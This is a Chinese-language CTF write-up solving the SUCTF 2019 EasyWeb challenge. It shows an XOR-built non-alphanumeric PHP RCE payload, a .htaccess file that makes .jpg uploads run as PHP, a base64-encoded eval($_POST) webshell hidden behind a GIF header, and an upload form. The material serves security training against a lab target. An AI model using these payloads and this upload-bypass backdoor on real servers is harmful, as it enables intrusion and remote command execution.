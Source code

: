 # [SUCTF 2019]EasyWeb



## 0、知识点

>   -   **.htaccess文件利用**
>       -   这个文件主要作用就是实现url改写，常见的就是把指定的文件按照php文件来解析
>       -   我用得多的就是留后门
>   -   **无字符rce**
>       -   简单来说就是将数字的字符经过各种变换，最后构造出a-z中的任意一个字符
>       -   然后利用php动态函数的特点，拼接出一个函数名，然后执行



## 1、分析

>   打开题目就可以看道代码已经全放出来了，然后读一波代码

```php
<?php

function get_the_flag(){
    //	创建文件目录
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    // 路径没有就创建
    if(!file_exists($userdir)){
    	mkdir($userdir);
    }

    // 获取文件
    if(!empty($_FILES["file"])) {
    	// 获取文件
        $tmp_name = $_FILES["file"]["tmp_name"];
        // 获取文件名
        $name = $_FILES["file"]["name"];
        // 获取文件扩展名
        $extension = substr($name, strrpos($name,".")+1);

        // 文件后缀不能有 ph
    	if(preg_match("/ph/i",$extension)) die("^_^"); 

    	// 文件中不能出现 <?    
	    if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");

	    // 文件类型得是图像
    	if(!exif_imagetype($tmp_name)) die("^_^"); 

    	// 拼接路径
        $path= $userdir."/".$name;
        // 将文件上传
        @move_uploaded_file($tmp_name, $path);

       	// 输出文件地址
        print_r($path);
    }
}

$hhh = @$_GET['_'];

// 为空显示代码
if (!$hhh){
    highlight_file(__FILE__);
}

// 字符串长度不能大于18
if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

// 过滤
if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

// 将字符串去重，并按ASCII码从小到大返回字符串
$character_type = count_chars($hhh, 3);

// 去重后字符串长度不能大于12
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>

```

## 3、解题

>   -   根据上面的读代码可以知道
>       -   需要首先构成一个无字符的rce
>       -   然后上传一个文件
>           -   存在的过滤：`ph、<?`
>       -   上传成后会返回文件上传路径 = 留后门访问拿flag

### 构造无字符rce

**贴一个php脚本，主要是使用异或构造脚本**

```php
<?php
$l = "";
$r = "";
$argv = str_split("_GET");  ##将_GET分割成一个数组，一位存一个值
for($i=0;$i<count($argv);$i++){   
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);    ##进行异或         
        if($k == $argv[$i]){
            if($j<16){  ##如果小于16就代表只需一位即可表示，但是url要求是2位所以补个0
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }
            $l .= "%ff";
            $r .= "%" . dechex($j);
            
        }
    }}
echo "\{$l^$r\}";  ### 这里的反引号只是用来区分左半边和右半边而已
```

**执行后获得的结果为如下，然后进行测试是否有用**

```nginx
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%A0}();&%A0=phpinfo
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303211138227.png)

>   可以发现`phpinfo`已经被执行了，然后同理将`phpinfo`替换成`get_the_flag`
>
>   就可以开始上传文件了，

 **.htaccess文件内容如下**

```htaccess
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
```

>   通过其`php_value auto_append_file`指定文件被PHP包含，
>
>   通过`AddType application/x-httpd-php`指定文件被解析，此外这条配置是兼容php伪协议的，
>
>   所以可以采用`php://filter`伪协议进行base64编码处理，这样就能绕过对`<?`的检测了。

**然后还需要构造一个poc.jpg文件，其内容如下**

```nginx
GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
```

>   文件主体使用使用幻数绕过，因为使用base64进行解析，每4位一解析所有补上两位

**在贴上传文件的html**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<!--题目链接-->
<form action="http://312eb63b-8fb9-4c43-91ca-b740512a664a.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%A0}();&%A0=get_the_flag" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

**获取到返回的路径名**

```c
upload/tmp_c47b21fcf8f0bc8b3920541abd8024fd/.htaccess
upload/tmp_c47b21fcf8f0bc8b3920541abd8024fd/poc.jpg
```

**然后访问图片位置**

```c
http://312eb63b-8fb9-4c43-91ca-b740512a664a.node4.buuoj.cn:81/upload/tmp_c47b21fcf8f0bc8b3920541abd8024fd/poc.jpg
```

**然后蚁剑连接拿flag**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303211154406.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303211153703.png)





















参考：

.htaccess文件利用：https://xz.aliyun.com/t/8267

无字符rce构造：https://juejin.cn/post/7096123946562486309

phpinfo可用信息介绍：https://www.k0rz3n.com/2019/02/12/PHPINFO 

https://mayi077.gitee.io/2020/02/14/SUCTF-2019-EasyWeb/

https://www.cnblogs.com/Article-kelp/p/16097100.html



































